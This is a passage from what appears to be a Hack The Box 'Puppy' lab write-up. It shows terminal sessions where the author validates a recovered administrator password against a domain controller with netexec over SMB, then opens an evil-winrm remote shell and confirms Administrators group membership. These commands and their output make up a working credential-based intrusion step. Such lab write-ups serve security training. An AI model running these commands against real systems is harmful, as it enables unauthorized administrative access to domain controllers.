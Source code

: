 ```
fcoomans@kali:~/htb/puppy$ nxc smb dc.puppy.htb -u steph.cooper_adm -p FivethChipOnItsWay2025!
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\steph.cooper_adm:FivethChipOnItsWay2025! (Pwn3d!)
```

Logging into the server as this user indeed revealed that the user was a member of the `Administrators` group.

```
fcoomans@kali:~/htb/puppy$ evil-winrm -i dc.puppy.htb -u steph.cooper_adm -p FivethChipOnItsWay2025!

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\steph.cooper_adm\Documents> whoami
puppy\steph.cooper_adm
*Evil-WinRM* PS C:\Users\steph.cooper_adm\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```
